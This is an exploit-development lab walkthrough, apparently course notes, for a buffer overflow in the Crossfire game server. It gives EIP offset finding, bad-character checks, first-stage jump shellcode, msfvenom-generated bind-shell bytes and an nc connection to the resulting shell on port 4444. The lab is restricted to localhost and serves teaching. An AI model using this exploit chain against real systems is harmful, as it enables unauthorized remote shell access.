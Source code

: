 # Linux Buffer Overflow

## Setup

1. Setup your IPTABLE rules as below, this stops traffic from other hosts and only allows localhost traffic

   ```
   root@kali:~# iptables -A INPUT -p TCP --destination-port 13327 \! -d 127.0.0.1 -j DROP
   root@kali:~# iptables -A INPUT -p TCP --destination-port 4444 \! -d 127.0.0.1 -j DROP
   ```

2. Load the vunerable application (crossfire) using edb (Evans DB) `root@kali:~# edb --run /usr/games/crossfire/bin/crossfire` 

3. The application is loaded in a paused state, so hit the run button twice

4. We can then crash the programme using the buffer exploit `crossfire-poc1.py`, which will display an error message in EDB and you can see that the EIP register has been overflowed with `A` values

5. We now need to find which bytes are overflowing into the EIP, we can do this using the pattern tool in metasploit, which creates a required number of unique bytes (the number of `A` values the script is injecting

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# updatedb
    root@kali:~/Desktop/lessons/linuxbuffer# locate pattern_create
    /usr/share/metasploit-framework/tools/pattern_create.rb
    root@kali:~/Desktop/lessons/linuxbuffer# /usr/share/metasploit-framework/tools/pattern_create.rb 4379
    ```

6. Update the script, see `crossfire-poc2.py` with the new exploit code and restart the application/debugger

7. When you run the script now, you will get the same overflow message but now with different bytes, we can use these bytes to locate the point at which EIP was overflowed

8. Get the ASCII value of the hex displayed in the error message `echo HEXHERE | xxd -r -p` or just use the metasploit pattern offset tool

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# /usr/share/metasploit-framework/tools/pattern_offset.rb 46367046
    [*] Exact match at offset 4368
    ```

9. Rewrite your script to confirm this, see `crossfire-poc3.py`

10. Restart and rerun the debugger/app/script

11. You can now see our EIP is overflown with `x42` or `B` so we know we are in the right place

12. We then look at all the registers i.e `EAX, EBX, ECX` looking for one that points to a part of our overflow. We find that `ESP` is pointing to the end of our overflow with 9 bytes remaining

13. When testing we find that we can't increase beyond 9 bytes as the programme crashes in a completely different way, we will have to use a `first stage shellcode`

14. During testing we noted that the `EAX` register points to the start of our input including the `setup sound` part, this made it unsuitable for injecting the shell but we can manipulate the `EAX` register to skip over the first few bytes.

15. First we need to check for bad characters, these are characters that effect the programme behaviour adversily, we do this using `crossfire-poc4.py` and repeatadly sending the exploit and checking the memory for any characters that mangle the input or disappear.

16. We then craft an exploit using `NASM` to add 12 bytes to EAX then jump to it

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# locate nasm_shell
    /usr/share/metasploit-framework/tools/nasm_shell.rb
    root@kali:~/Desktop/lessons/linuxbuffer# /usr/share/metasploit-framework/tools/nasm_shell.rb
    nasm > add eax,12
    00000000  83C00C            add eax,byte +0xc
    nasm > jmp eax
    00000000  FFE0              jmp eax
    ```

15. We copy the hex code (`83C00C` and `FFE0`) into our exploit, see `crossfire-poc5.py`

16. Using the EDB plugin "opcode searcher" we look for the code `jmp esp` and note down the address

17. We then replace the B's that were previously going to the EIP with the address of the `jmp esp` command, see `crossfire-poc6.py`. 

18. Restart edb and the application, but before starting place a breakpoint on the address with the `jmp esp` command. Once done start as normal and send payload

19. When the breakpoint is hit (confirm the correct address), we check the ESP register and can see that it is pointing to our first stage shell code

20. Press F8 to take the jump further confirming the above. Whilst watching where EAX is pointing we now run the commands step by step (press F8 again), we can see that EAX updates to the start of our `A` values. Pressing F8 once more redirects code execution to the start of our `A`s

21. Using `msfvenom` generate shellcode to replace our A values with

    ```
    root@kali:~/Desktop/lessons/linuxbuffer# msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x20" --platform linux -a x86 -e x86/shikata_ga_nai
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 105 (iteration=0)
    unsigned char buf[] = 
    "\xd9\xce\xba\x3b\xad\xdc\x46\xd9\x74\x24\xf4\x5f\x33\xc9\xb1"
    "\x14\x31\x57\x19\x83\xef\xfc\x03\x57\x15\xd9\x58\xed\x9d\xea"
    "\x40\x5d\x61\x47\xed\x60\xec\x86\x41\x02\x23\xc8\xf9\x95\xe9"
    "\xa0\xff\x29\x1f\x6c\x6a\x3a\x4e\xdc\xe3\xdb\x1a\xba\xab\xd6"
    "\x5b\xcb\x0d\xed\xe8\xcf\x3d\x8b\xc3\x4f\x7e\xe4\xba\x82\x01"
    "\x97\x1a\x76\x3d\xc0\x51\x06\x08\x89\x91\x6e\xa4\x46\x11\x06"
    "\xd2\xb7\xb7\xbf\x4c\x41\xd4\x6f\xc2\xd8\xfa\x3f\xef\x17\x7c";
    ```

22. Add this code to the start of our exploit, ensuring that you componsate for the number of bytes added (remove `A`'s from the string). As seen in `crossfire-poc7.py`

23. Confirm port 4444 is in a non listening state `netstat -antp | grep 4444`

24. Restart the app (and the debug if you like) and then run the exploit

25. Using netstat we can now confirm crossfire is listening `netstat -antp | grep 4444`

26. You can now connect using `nc -nv 127.0.0.1 4444` which will give you access to the user used to run crossfire


